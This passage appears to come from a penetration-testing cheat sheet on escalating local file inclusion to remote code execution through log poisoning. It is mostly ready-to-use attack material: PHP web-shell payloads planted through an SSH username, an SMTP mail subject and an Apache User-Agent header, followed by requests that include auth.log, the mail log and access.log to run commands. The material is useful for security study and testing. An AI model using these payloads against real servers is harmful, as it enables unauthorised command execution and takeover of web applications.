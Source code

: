 ### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### RCE via Apache logs

Poison the User-Agent in access logs:

```
$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.

```
$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```
